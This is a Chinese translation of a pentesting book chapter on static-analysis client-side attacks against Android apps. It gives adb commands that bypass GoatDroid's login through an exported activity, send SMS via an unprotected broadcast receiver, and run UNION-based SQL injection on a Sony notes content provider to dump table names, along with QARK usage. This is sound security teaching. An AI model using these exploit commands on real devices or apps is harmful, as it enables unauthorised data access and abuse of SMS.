




# 七、客户端攻击——静态分析技术

在上一章中，我们介绍了与 Android 应用相关的服务器端攻击。本章从 a**静态应用安全测试**（**SAST**的角度介绍了各种客户端攻击。在下一章中，我们将从**动态应用安全测试**（**DAST**的角度介绍相同的客户端攻击，并将看到一些自动化工具。要成功执行本章所述的大多数攻击，攻击者需要说服受害者在其手机上安装恶意应用。此外，如果攻击者具有对设备的物理访问权限，也可能成功利用这些应用。

以下是我们将在本章中讨论的一些主要主题：

*   攻击应用组件
*   活动
*   服务
*   广播接收者
*   内容提供商
*   泄露内容提供商
*   内容提供者中的 SQL 注入
*   使用 QARK 的自动静态分析

# 攻击应用组件

我们在[第 3 章](23.html#aid-49AH01 "Chapter 3. Fundamental Building Blocks of Android Apps")*安卓应用的基本构建块*中简要介绍了安卓应用组件。本章的这一部分解释了可能针对 Android 应用组件的各种攻击。建议阅读[第 3 章](23.html#aid-49AH01 "Chapter 3. Fundamental Building Blocks of Android Apps")、*Android 应用的基本构建块*，以便更好地理解这些概念。

## 对活动的攻击

导出的活动是我们在渗透测试中经常遇到的 Android 应用组件的常见问题之一。导出的活动可以由位于同一设备上的任何应用调用。想象一下这样一种情况：应用已导出敏感活动，并且用户还安装了恶意应用，每当他连接充电器时都会调用此活动。当应用具有不受保护的活动和敏感功能时，这是可能的。

### 导出行为对活动意味着什么？

以下是 Android 文档中导出属性的说明：

活动是否可以由其他应用的组件启动—如果可以，则为“真”，如果不能，则为“假”。如果为“false”，则活动只能由相同应用的组件或具有相同用户 ID 的应用启动。

默认值取决于活动是否包含意图筛选器。缺少任何筛选器意味着只能通过指定确切的类名来调用活动。这意味着该活动仅用于应用内部使用（因为其他人不知道类名）。因此，在本例中，默认值为“false”。另一方面，至少存在一个筛选器意味着该活动是供外部使用的，因此默认值为“true”。

正如我们所看到的，如果一个应用有一个导出的活动，其他应用也可以调用它。以下部分显示攻击者如何利用此漏洞攻击应用。

让我们使用 OWASP 的 GoatDroid 应用来演示这一点。GoatDroid 是一个具有各种漏洞的应用，可从以下 URL 下载：

[https://github.com/downloads/jackMannino/OWASP-GoatDroid-Project/OWASP-GoatDroid-0.9.zip](https://github.com/downloads/jackMannino/OWASP-GoatDroid-Project/OWASP-GoatDroid-0.9.zip) 我们可以使用 Apktool 从`apk`中抓取`AndroidManifest.xml`文件。这在[第 8 章](28.html#aid-57R302 "Chapter 8. Client-Side Attacks – Dynamic Analysis Techniques")*客户端攻击-动态分析技术*中有介绍。以下是取自 GoatDroid 应用的`AndroidManifest.xml`：

```
<?xml version="1.0" encoding="utf-8"?>
<manifest android:versionCode="1" android:versionName="1.0" package="org.owasp.goatdroid.fourgoats"
  xmlns:android="http://schemas.android.com/apk/res/android">
    <application android:theme="@style/Theme.Sherlock" android:label="@string/app_name" android:icon="@drawable/icon" android:debuggable="true">
        <activity android:label="@string/app_name" android:name=".activities.Main">
            <intent-filter>
              <action android:name="android.intent.action.MAIN" />
              <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
        <activity android:label="@string/login" android:name=".activities.Login" />
        <activity android:label="@string/register" android:name=".activities.Register" />
        <activity android:label="@string/home" android:name=".activities.Home" />
        <activity android:label="@string/checkin" android:name=".fragments.DoCheckin" />
        <activity android:label="@string/checkins" android:name=".activities.Checkins" />
        <activity android:label="@string/friends" android:name=".activities.Friends" />
        <activity android:label="@string/history" android:name=".fragments.HistoryFragment" />
        <activity android:label="@string/history" android:name=".activities.History" />
        <activity android:label="@string/rewards" android:name=".activities.Rewards" />
        <activity android:label="@string/add_venue" android:name=".activities.AddVenue" />
        <activity android:label="@string/view_checkin" android:name=".activities.ViewCheckin" android:exported="true" />
        <activity android:label="@string/my_friends" android:name=".fragments.MyFriends" />
        <activity android:label="@string/search_for_friends" android:name=".fragments.SearchForFriends" />
        <activity android:label="@string/profile" android:name=".activities.ViewProfile" android:exported="true" />
        <activity android:label="@string/pending_friend_requests" android:name=".fragments.PendingFriendRequests" />
        <activity android:label="@string/friend_request" android:name=".activities.ViewFriendRequest" />
        <activity android:label="@string/my_rewards" android:name=".fragments.MyRewards" />
        <activity android:label="@string/available_rewards" android:name=".fragments.AvailableRewards" />
        <activity android:label="@string/preferences" android:name=".activities.Preferences" />
        <activity android:label="@string/about" android:name=".activities.About" />
        <activity android:label="@string/send_sms" android:name=".activities.SendSMS" />
        <activity android:label="@string/comment" android:name=".activities.DoComment" />
        <activity android:label="@string/history" android:name=".activities.UserHistory" />
        <activity android:label="@string/destination_info" android:name=".activities.DestinationInfo" />
        <activity android:label="@string/admin_home" android:name=".activities.AdminHome" />
        <activity android:label="@string/admin_options" android:name=".activities.AdminOptions" />
        <activity android:label="@string/reset_user_passwords" android:name=".fragments.ResetUserPasswords" />
        <activity android:label="@string/delete_users" android:name=".fragments.DeleteUsers" />
        <activity android:label="@string/reset_user_password" android:name=".activities.DoAdminPasswordReset" />
        <activity android:label="@string/delete_users" android:name=".activities.DoAdminDeleteUser" />
        <activity android:label="@string/authenticate" android:name=".activities.SocialAPIAuthentication" android:exported="true" />
        <activity android:label="@string/app_name" android:name=".activities.GenericWebViewActivity" />
        <service android:name=".services.LocationService">
          <intent-filter>
            <action android:name="org.owasp.goatdroid.fourgoats.services.LocationService" />
          </intent-filter>
        </service>
        <receiver android:label="Send SMS" android:name=".broadcastreceivers.SendSMSNowReceiver">
            <intent-filter>
              <action android:name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS" />
            </intent-filter> >
         </receiver>
    </application>
    <uses-permission android:name="android.permission.SEND_SMS" />
    <uses-permission android:name="android.permission.CALL_PHONE" />
    <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION" />
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <uses-permission android:name="android.permission.INTERNET" />
```

从前面的文件中，我们可以看到，通过将`android:exported`属性设置为 true，可以显式导出一些组件。下面的代码显示了一个这样的活动：

```
<activity android:label="@string/profile" android:name=".activities.ViewProfile" android:exported="true" />

```

这可由设备上运行的其他恶意应用调用。出于演示目的，我们可以使用 adb 模拟完全相同的行为，而不是编写恶意应用。

当我们运行这个应用时，它会启动一个需要用户名和密码才能登录的活动。


运行以下命令将绕过身份验证，我们将看到`ViewProfile`活动：

```
$ adb shell am start -n org.owasp.goatdroid.fourgoats/.activities.ViewProfile

```

让我们看一下上一个命令的解释。

*   `adb shell`-它将在设备上获得一个外壳
*   `am`-活动管理器工具
*   `start`-启动组件
*   `-n`-指定必须启动哪个组件

前面提到的命令使用内置的 am 工具来启动指定的活动。以下屏幕截图显示我们已成功绕过身份验证：


### 注

注意：有关 adb 外壳命令的更多详细信息，请访问以下 URL：

[http://developer.android.com/tools/help/shell.html](http://developer.android.com/tools/help/shell.html)

将属性的值设置为`false`将解决此问题。如下所示：

```
<activity android:label="@string/profile" android:name=".activities.ViewProfile" android:exported="false" />

```

但是，如果利用人员出于某种原因想要导出活动，他可以定义自定义权限。只有具有这些权限的应用才能调用此组件。

如前面导出的属性的描述中所述，还有另一种可能的方法，称为意图过滤器，可用于导出活动。

### 目的过滤器

意图过滤器指定可以启动应用组件的意图类型。我们可以添加特殊条件以使用意图过滤器启动组件。它打开组件以接收广告类型的意图，同时过滤掉那些对组件没有意义的意图。许多利用人员将意图过滤器视为一种安全机制。不能将意图筛选器视为保护组件的安全机制，请始终记住，由于使用意图筛选器，默认情况下会导出组件。

下面是一个示例代码，显示了意图过滤器的外观：

```
<activity android:label="@string/apic_label" android:name="com.androidpentesting.PrivateActivity">

  <intent-filter>

    <action android:name=" com.androidpentesting.action.LaunchPrivateActivity"/>

    <category android:name="android.intent.category.DEFAULT"/>

  </intent-filter>

</activity>
```

正如您在前面的摘录中所看到的，`<intent-filter>`标记中声明了一个 action 元素。要通过此筛选器，用于启动应用的意图中指定的操作必须与声明的操作匹配。如果我们在启动 intent 时没有指定任何过滤器，它仍然可以工作。

这意味着，以下两个命令都可以启动前一段代码中指定的私有活动：

```
Intent without any action element.
am start –n com.androidpentesting/.PrivateActivity
Intent with action element.
am start –n com.androidpentesting/.PrivateActivity –a com.androidpentesting.action.LaunchPrivateActivity

```

### 注

所有运行安卓 4.3 版及更早版本的安卓设备在默认设置应用中都容易受到攻击。这允许用户绕过非根设备上的锁定屏幕。我们将在[第 9 章](29.html#aid-5FF7G1 "Chapter 9. Android Malware")、*Android 恶意软件*中讨论。

## 对服务的攻击

Android 应用通常使用服务在后台执行长时间运行的任务。虽然这是我们在大多数展示初学者友好教程的博客中看到的最常用的服务，但也有其他类型的服务，它们为设备上运行的另一个应用或同一应用的组件提供接口。因此服务基本上有两种形式，即启动和绑定。

当我们使用`startService()`调用服务时，服务启动。一旦启动，服务可以无限期地在后台运行，即使启动它的组件已被销毁。

当我们使用`bindService()`调用服务时，服务被绑定。绑定服务提供了一个客户端-服务器接口，允许组件与服务交互、发送请求、获取结果，甚至通过**进程间通信**（**IPC**）跨进程进行交互

绑定服务可以通过以下三种方式创建。

### 延长活页夹等级：

如果利用人员希望在同一应用中调用服务，则首选此方法。这不会将服务公开给设备上运行的其他应用。

该过程是通过扩展`Binder`类并从`onBind()`返回其实例来创建接口。客户端收到`Binder`并可以使用它直接访问服务中可用的公共方法。

### 使用信使

如果利用人员需要其接口跨不同流程工作，他可以使用 Messenger 为服务创建接口。这种创建服务的方式定义了一个响应不同类型消息对象的处理程序。这允许客户端使用消息对象向服务发送命令。

### 使用 AIDL

**安卓接口定义语言****AIDL**是将一个应用的方法提供给其他应用的另一种方式。

与活动类似，在同一设备上运行的其他应用也可以调用未受保护的服务。调用使用`startService()`启动的第一种服务非常简单，我们可以使用 adb 来实现。

同一个 GoatDroid 应用用于演示在导出应用中的服务时如何调用该服务。

GoatDroid 的`AndroidManifest.xml`文件中的以下条目显示，由于使用了意图过滤器，服务被导出。

```
<service android:name=".services.LocationService">

  <intent-filter>

    <action android:name="org.owasp.goatdroid.fourgoats.services.LocationService" />

  </intent-filter>

</service>
```

我们可以通过指定如下所示的`startservice`选项，使用 am 工具调用它。

```
adb shell am startservice -n org.owasp.goatdroid.fourgoats/.services.LocationService -a org.owasp.goatdroid.fourgoats.services.LocationService

```

### 攻击 AIDL 服务

AIDL 实现在现实世界中非常少见，但如果您有兴趣了解如何测试和利用此类服务的示例，您可以阅读以下博客：

[http://blog.thecobraden.com/2015/12/attacking-bound-services-on-android.html?m=1](http://blog.thecobraden.com/2015/12/attacking-bound-services-on-android.html?m=1)

## 对广播接收机的攻击

广播接收器是 Android 中最常用的组件之一。利用人员可以使用广播接收器为其应用添加大量功能。

广播接收器在公开导出时也容易受到攻击。以同一 GoatDroid 应用为例，演示如何利用广播接收机中的问题。

以下摘录自 GoatDroid 的`AndroidManifest.xml`文件，显示它注册了一个接收器：

```
<receiver android:label="Send SMS" android:name=".broadcastreceivers.SendSMSNowReceiver">
    <intent-filter>
      <action android:name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS" />
    </intent-filter> >
</receiver>
```

通过深入研究其源代码，我们可以在应用中看到以下功能。

```
public void onReceive(Context arg0, Intent arg1) { 
    context = arg0;
    SmsManager sms = SmsManager.getDefault();
    Bundle bundle = arg1.getExtras(); 
    sms.sendTextMessage(bundle.getString("phoneNumber"),null, bundle.getString("message"), null, null);
    Utils.makeToast(context, Constants.TEXT_MESSAGE_SENT, Toast.LENGTH_LONG); 
}
```

这是接收广播并在接收广播时发送 SMS。这也将接收 SMS 消息和 SMS 必须发送到的号码。此功能需要在其`AndroidManifest.xml`文件中注册`SEND_SMS`权限。在其`AndroidManifest.xml`文件中可以看到以下行，确认此应用已注册`SEND_SMS`权限：

```
<uses-permission android:name="android.permission.SEND_SMS" />
```

### 提示

本书的前言中提到了下载代码包的详细步骤。请看一看。

该书的代码包也托管在 GitHub 上的[https://github.com/PacktPublishing/hacking-android](https://github.com/PacktPublishing/hacking-android) 。我们在[上还提供了丰富的书籍和视频目录中的其他代码包 https://github.com/PacktPublishing/](https://github.com/PacktPublishing/) 。看看他们！

此应用无法检查到底是谁发送了此广播事件。攻击者可以利用这一点，制定特殊意图，如以下命令所示：

```
adb shell am broadcast –a org.owasp.goatdroid.fourgoats.SOCIAL_SMS –n org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats/.broadcastreceivers.SendSMSNowReceiver –es phoneNumber 5556 –es message CRACKED

```

让我们看一下上一个命令的解释。

*   `am broadcast`-发送广播请求
*   `-a`-指定动作元素
*   `-n`-指定组件的名称
*   `-es`–指定字符串类型的额外名称-值对

让我们运行这个命令，看看它是什么样子。下图显示应用未在前台运行，用户未与 GoatDroid 应用交互。



在上运行命令时，您的终端应在模拟器中显示以下 toast 消息：


如您所见，已在没有用户干预的情况下从设备发送消息。但是，如果应用在运行 Android 4.2 或更高版本的设备上运行，它将显示一条警告消息，如以下屏幕截图所示：


请注意，此警告消息是因为短信发送到短代码，在我们的例子**5556**中，但不是为了阻止广播意图。如果我们触发功能而不是发送短信，用户将不会收到此类警告。

## 对内容提供商的攻击

本节讨论对内容提供商的攻击。与目前讨论的其他应用组件类似，内容提供商在导出时也可能被滥用。默认情况下，将导出针对 SDK 版本 API 17 的应用。这意味着如果我们没有在`AndroidManifest.xml`文件中明确指定`exported=false`，则默认情况下会导出内容提供程序。此默认行为已从 API 级别 17 更改，默认值为`false`。此外，如果应用导出内容提供者，我们仍然可以像到目前为止讨论的其他组件一样滥用它。

让我们探讨一下内容提供商面临的一些问题。我们将使用实际应用来了解这些问题。我们将要看到的目标应用是来自 Sony Xperia 设备的内置 notes 应用。我在索尼的 notes 应用中发现了这个漏洞，并将其报告给了索尼。此应用不再使用。

以下是有关该应用的更多详细信息：

*   **软件版本**：1.C.6
*   **包装名称**：`com.sonyericsson.notes`

该应用取自索尼设备（Android 4.1.1-C1504 和 C1505 的股票）。

正如我们处理 GoatDroid 的应用一样，我们首先需要目标应用的`AndroidManifest.xml`。稍加探索，我们可以在`AndroidManifest.xml`文件中看到以下条目：

```
<provider android:name=".NoteProvider" android:authorities="com.sonyericsson.notes.provider.Note" />

```

您会注意到，本摘录中没有`android:exported=true`条目，但由于 API 级别为 16，并且导出了内容提供程序的默认行为，因此导出了此提供程序。APKTOOL 生成的`AndroidManifest.xml`文件中没有 MinSDK 条目，但是我们可以通过其他方式找到它。一种方法是使用 Drozer，您可以在其中运行命令来转储应用的`AndroidManifest.xml`文件。我们将在本章的下一节中对此进行探讨。

如前所述，此应用取自运行 Android 4.1.1 的设备。这意味着该应用可能使用支持 4.1.1 以下 Android 设备的 SDK 版本。以下屏幕截图显示了 Android 版本及其相关的 API 级别：


针对该 Android 版本 4.1.1 的应用的 API 级别最高可达 16 级。由于默认情况下会导出 API 级别低于 17 的内容提供程序，因此我们可以确认已导出此内容提供程序。

### 注

注意：使用 Drozer 可以确认此应用具有以下属性：

```
<uses-sdk minSdkVersion= "14" targetSdkVersion= "15">
```

您可以使用[第 8 章](28.html#aid-57R302 "Chapter 8. Client-Side Attacks – Dynamic Analysis Techniques")*客户端攻击–静态分析技术*中的 Drozer 部分，在*自动 Android 应用评估中查看。*

让我们看看如何滥用这些导出的内容提供商。

### 查询内容提供商：

当导出内容提供者时，我们可以查询它并从中读取内容。还可以插入/删除内容。然而，在做任何事情之前，我们需要能够识别内容提供者 URI。当我们使用 Apktool 反汇编 APK 文件时，它会在名为`smali`的文件夹中生成`.smali`文件。

在我的例子中，以下是 APKTOOL 在反汇编应用后生成的文件夹结构：

`/outputdir/smali/com/sonyericsson/notes/*.smali`

我们可以使用`grep`**命令递归搜索包含单词`content://`的字符串。具体情况如下：**

 **```
$ grep -lr "content://" *
Note$NoteAccount.smali
NoteProvider.smali
$

```

正如我们在前面的摘录中所看到的，`grep`在两个不同的文件中找到了`content://`这个词。在`NoteProvider.smali`文件中搜索`content://`一词会显示以下内容：

```
.line 37
const-string v0, "content://com.sonyericsson.notrs.provider.Notes/notes"
invoke-static {v0}, Landroid/net/Uri;->parse(Ljava/lang/String;)Landroid/net/Uri;
move-result-object v0
sput-object v0, Lcom/sonyericsson/notes/NoteProvider;->CONTENT_URI:Landroid/net/Uri;
.line 54
const/16 v0,0xe
```

如您所见，它具有以下内容提供程序 URI：

```
content://com.sonyericsson.notes.provider.Note/notes/
```

现在，从前面的 URI 读取内容非常简单，只需执行以下命令：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/

```

从 Android 4.1.1 开始，引入了`content`命令。这基本上是一个位于`/system/bin/content`的脚本。这可以通过 adb 外壳直接读取内容提供程序。

运行上一个命令将使用内容提供程序从数据库中读取内容，如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/

Row: 0 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
Row: 1 isdirty=1, body=test note_2, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062253793, sync_uid=NULL, title=No title, meta_info=
false
0, _id=2, created=1062253793, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

正如您在前面的输出中所看到的，有两行，每行有 14 列显示在输出中。为了明确输出，提取的列名如下所示：

*   `Isdirty`
*   `body`
*   `account_id`
*   `voice_path`
*   `doodle_path`
*   `deleted`
*   `modified`
*   `sync_uid`
*   `title`
*   `meta_info`
*   `_id`
*   `created`
*   `background`
*   `usn`

您还可以将其与应用中的实际数据进行比较。

**  **### 使用 adb 在内容提供商中利用 SQL 注入

内容提供商通常由 SQLite 数据库支持。当传递给这些数据库的输入未被正确清理时，我们可以看到与我们通常在 web 应用中看到的相同的 SQL 注入。下面是一个使用相同 notes 应用的示例。

#### 查询内容提供者

首先再次查询内容提供商的 notes 表：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/

Row: 0 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
Row: 1 isdirty=1, body=test note_2, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062253793, sync_uid=NULL, title=No title, meta_info=
false
0, _id=2, created=1062253793, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

这是我们前面看到的。前面的查询是从 notes 表中检索所有行，该表指向应用中存储的实际 notes。


前面的查询的工作方式与下面的 SQL 查询类似：

```
select * from notes;

```

#### 写一个 where 条件：

现在，让我们编写一个条件，使用`where`子句只获取一行：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1"

```

正如您在前面的命令中所看到的，我们添加了一个简单的`where`子句来过滤数据。列名`_id`是从我们使用`adb`查询内容提供商的上一个输出中找到的。

上一个命令的输出如下所示：。

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1"

Row: 0 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

如果仔细观察前面显示的输出，则只显示一行。上一个查询的工作方式与以下 SQL 查询类似：

```
select * from notes where _id=1;

```**  **## 注射试验：

如果您来自传统的 web 应用渗透测试背景，您可能知道一个事实，即单引号（'）是 SQL 注入测试中最常用的字符。让我们尝试通过向通过`where`子句传递的值添加一个引号。

该命令现在看起来如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1'"

```

其思想是检查此单引号是否会导致数据库执行的 SQL 查询中出现语法错误。如果是，则表示外部输入未正确验证，因此应用中可能存在注入漏洞。

运行上一个命令将产生以下输出：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1'"

Error while accessing provider:com.sonyericsson.notes.provider.Note
android.database.sqlite.SQLiteException: unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (_id=1')
 at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:181)
 at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:137)
 at android.content.ContentProviderProxy.query(ContentProviderNative.java:413)
 at com.android.commands.content.Content$QueryCommand.onExecute(Content.java:474)
 at com.android.commands.content.Content$Command.execute(Content.java:381)
 at com.android.commands.content.Content.main(Content.java:544)
 at com.android.internal.os.RuntimeInit.nativeFinishInit(Native Method)
 at com.android.internal.os.RuntimeInit.main(RuntimeInit.java:243)
 at dalvik.system.NativeStart.main(Native Method)
$

```

正如您在前面的摘录中所看到的，有一个 SQLite 异常被抛出。一个小小的观察清楚地表明，这是由于我们通过的单一引用。

```
unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (_id=1')

```

前面的错误还显示了查询中使用的列的确切数量，即 14。这有助于在查询中编写 UNION 语句以进一步进行操作。

### 查找列号以便进一步提取

与基于 web 的 SQL 注入类似，现在让我们使用 UNION 执行 SELECT 语句以查看返回的列。由于我们直接在终端上执行此操作，因此所有 14 列都将被回显。但是让我们测试一下。

运行以下命令将打印从 1 开始的所有 14 个数字：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- ("

```

这个命令是如何工作的？

首先，看看我们得到的错误，有一个括号被打开，我们的单引号在关闭它之前导致了一个错误。您可以在下面看到它：

```
WHERE (_id=1')

```

因此，我们首先关闭括号，然后编写`select`查询，最后在查询后注释掉所有内容。现在，上述`where`条款将变为以下内容：

```
WHERE (_id=1) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14—

```

之后，从 1 到 14 的列应与现有 SELECT 语句中的列数匹配。当我们使用 SELECT 语句编写 UNION 时，两个语句中的列数应该相同。因此，前面的查询将在语法上与现有查询匹配，并且不会出现任何错误。

运行上一个命令将导致以下结果：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=5, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

前面的输出显示了两个 SQL 查询的结果，显示了响应中的所有 14 个数字。

### 运行数据库功能

通过稍微修改前面的 SQL 查询，我们可以提取更多信息，如数据库版本、表名和其他有趣的信息。

### 查找 SQLite 版本：

运行`sqlite_version()`功能显示 SQLite 版本信息，如下图所示：



我们可以在查询中使用此函数，通过易受攻击的应用查找 SQLite 版本。以下命令显示了如何执行此操作：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14-- ("

```

我们已将编号`5`替换为`sqlite_version()`。事实上，您可以替换任何数字，因为所有数字都会被回显。

运行上一个命令将显示 SQLite 版本信息，如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=3.7.11, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

正如您在之前的摘录中所看到的，3.7.11 是安装的 SQLite 版本。

### 查表名

为了检索表名，我们可以修改前面的查询，将`sqlite_version()`替换为`tbl_name`。另外，我们需要从`sqlite_master`数据库中查询表名。`sqlite_master`与`MySQL`数据库中的`information_schema`类似。它保存数据库的元数据和结构。

修改后的查询如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master-- ("

```

这将为我们提供如下输出所示的表名：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=accounts, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=android_metadata, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 2 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=notes, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 3 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

正如您在之前的摘录中所看到的，检索到三个表：

*   `accounts`
*   `android_metadata`
*   `notes`

类似地，我们可以通过易受攻击的应用运行任何 SQLite 命令，从数据库中提取数据。**  **# 使用 QARK 进行静态分析：

**QARK**（简称**安卓快速回顾工具包**）是另一个有趣的工具。这是一个命令行工具，通过使用各种工具反编译 APK 文件，然后分析特定模式的源代码，对 Android 应用执行静态分析。

QARK 由 LinkedIn 内部安全团队利用，可从以下链接下载：

[https://github.com/linkedin/qark](https://github.com/linkedin/qark) 设置 QARK 的说明已在[第 1 章](21.html#aid-3STPM1 "Chapter 1. Setting Up the Lab")、*设置实验室*中给出。让我们看看 QARK 如何用于对 Android 应用执行静态分析。

QARK 在以下模式下工作：

*   交互模式
*   无缝模式

我们可以使用以下命令以交互模式启动 QARK 工具：

```
python qark.py

```

运行上一个命令将以交互模式启动 QARK，如下图所示：


如上图所示，我们可以使用 QARK 分析 APK 文件以及源代码。让我们通过选择**1**来处理 APK 文件，然后我们需要选择 APK 文件的路径，如下面的屏幕截图所示：


前面的屏幕截图显示了我们之前看到的 Sony notes 应用的路径。点击*输入*并按照屏幕上的说明开始分析应用。

下图显示 QARK 从目标应用检索到的`AndroidManifest.xml`文件：



以下屏幕截图显示了 QARK 正在进行的静态分析过程：



一旦 QARK 完成其分析，它将在 QARK 目录中名为 output 的文件夹中生成报告。如果您希望创建 POC，QARK 还将创建一个 POC 应用，用于演示如何利用报告的漏洞。


我们可以通过点击页面左侧可用的选项卡来查看每个漏洞的详细信息。

如前所述，QARK 也可以在无需用户干预的无缝模式下运行。

```
python qark.py --source 1 --pathtoapk ../testapp.apk --exploit 0 --install 0

```

前面的命令与我们在交互模式中看到的效果相同。

让我们看一下上一个命令的解释。

*   `--source 1`表示我们正在使用 APK 文件作为输入
*   `--pathtoapk`指定输入的 APK 文件
*   `--exploit 0`告知 QARK 不要创建 POC APK 文件
*   `--install 0`告知 QARK 不要在设备上安装 POC 文件

# 总结

在本章中，我们讨论了 Android 应用中可能出现的各种客户端攻击。我们已经了解了如何从`AndroidManifest.xml`、源代码分析中获得有价值的见解，以及如何使用 QARK 工具来自动化此过程。备份技术允许我们只需很少的额外步骤就可以在根设备上执行与在根设备上相同的技术，即使在非根设备上也是如此。如果利用者使用这些应用组件，那么在将其应用发布到生产环境中时，需要格外小心。始终建议交叉检查`AndroidManifest.xml`文件，确保没有错误导出组件。**